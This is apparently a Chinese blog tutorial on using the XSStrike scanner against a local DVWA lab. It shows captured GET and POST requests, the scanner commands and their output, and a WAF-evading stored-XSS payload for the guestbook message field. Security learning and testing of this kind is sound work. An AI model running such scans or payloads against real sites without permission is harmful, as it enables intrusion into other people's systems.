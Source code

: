 ```yaml
---
layout:     post
title:      XSStrike
subtitle:   XSS 检测工具 XSStrike
date:       2020-01-11
author:     D
header-img: 
catalog: true
mermaid: true
tags:
    - XSS
---
```


### 简介

`XSStrike`据说是一款比较好用的检查XSS漏洞的工具，能够`bypass WAF`,
检查 `DOM XSS`，当然 `Reflected XSS` 和 `Stored XSS` 也可以检测。

Github仓库以及使用方法:
[XSStrike](https://github.com/s0md3v/XSStrike)
[XSStrike使用方法](https://github.com/s0md3v/XSStrike/wiki/Usage)

### 使用

XSStrike可以使用 `GET` 方法，也可以使用 `POST` 方法，使用什么方法要看被检测的网站使用什么方法。
下面是以检测DVWA为例子
 
##### GET 方法

**DVWA XSS(Reflected)**

Burp截获的数据如下：
```
GET /dvwa/vulnerabilities/xss_r/?name=nihoao HTTP/1.1
Host: 192.168.1.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.10/dvwa/vulnerabilities/xss_r/
Connection: close
Cookie: security=low; PHPSESSID=g9qm98qk1fi31golgpth3c3qqq
Upgrade-Insecure-Requests: 1
```
从截获的信息来看使用的 GET 参数只有一个 `name`
那么该如何使用 XSStrike 来帮忙自动检测呢？
如下：

终端输入
* -u 后面跟URL

```
python3 xsstrike.py -u "http://192.168.1.10/dvwa/vulnerabilities/xss_r/?name=nihoao"
```
结果显示如下信息
```
	XSStrike v3.1.4

[~] Checking for DOM vulnerabilities 
[+] WAF Status: Offline 
[!] Testing parameter: name 
[-] No reflection found 
```
我们可以得到的信息：
1. WAF Status: Offline 是没有的或者是有也关闭了
2. Testing parameter: name 参数只有一个name可以看到 XSStrike可以自动检测参数，
其实XSStrike还就是对这个输入参数进行赋值来进行检查的。只是这里没有显示出来。
3. No reflection found 表示 XSStrike没检测到XSS漏洞.

##### POST 方法

**DVWA XSS(Stored)**

那么下面我们看一下 XSStrike 给参数赋值并且打印出来的例子：

Burp 截获的信息如下：

```
POST /dvwa/vulnerabilities/xss_s/ HTTP/1.1
Host: 192.168.1.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.10/dvwa/vulnerabilities/xss_s/
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Connection: close
Cookie: security=low; PHPSESSID=dn57dj6nlghiu64oa6ko4pjfj0
Upgrade-Insecure-Requests: 1

txtName=jack&mtxMessage=where+is+rose&btnSign=Sign+Guestbook
```
从上面信息可以看到使用 `POST` 方法.

那么这次XSStrike 该如使用呢？
如下：
```
root@kali:~/XSStrike# python3 xsstrike.py -u "http://192.168.1.10/dvwa/vulnerabilities/xss_s/"  --header "Cookie: security=low; PHPSESSID=dn57dj6nlghiu64oa6ko4pjfj0" --data "txtName=jack&mtxMessage=where+is+rose&btnSign=Sign+Guestbook"
```
这里相对于上面的 GET 方法增加了一些信息：
* --header 头部信息 `"Cookie: security=low; PHPSESSID=dn57dj6nlghiu64oa6ko4pjfj0"`
* --data POST方法的body信息 `"txtName=jack&mtxMessage=where+is+rose&btnSign=Sign+Guestbook"`

检测过程输出信息如下：

```
	XSStrike v3.1.4

[~] Checking for DOM vulnerabilities 
[+] WAF Status: Offline 
[!] Testing parameter: txtName 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[!] Payloads generated: 3072 
 ~] Progress: 3072/3072
[!] Testing parameter: mtxMessage 
[!] Reflections found: 1538 
[~] Analysing reflections 
[~] Generating payloads 
[!] Payloads generated: 2238432 
------------------------------------------------------------
[+] Payload: <detAIls%09ONpoinTEREnter%09=%09[8].find(confirm)// 
[!] Efficiency: 100 
[!] Confidence: 10 
[?] Would you like to continue scanning? [y/N] n
```
我们可以看到`输入`参数有`两个`,其实burp给出的信息data里面参数有3个但是，
第3个参数不是输入参数，因为大部分漏洞都是输入输出产生。这里的第3个参数`btnSign`就没什么用了.

这里产生了第一条 Payload 
(其实XSStrike已经插入了很多条记录到数据库，但是不知道为什么它才跳出来第一条payload)
```
<detAIls%09ONpoinTEREnter%09=%09[8].find(confirm)//
```
然后 XSStrike 询问我们是否还要继续进行扫描，但是，
我这里就不再进行扫描了,所以选择了 n 

我们只要对参数 mtxMessage 赋值:
```
<detAIls%09ONpoinTEREnter%09=%09[8].find(confirm)//
```
就可以复现漏洞了。





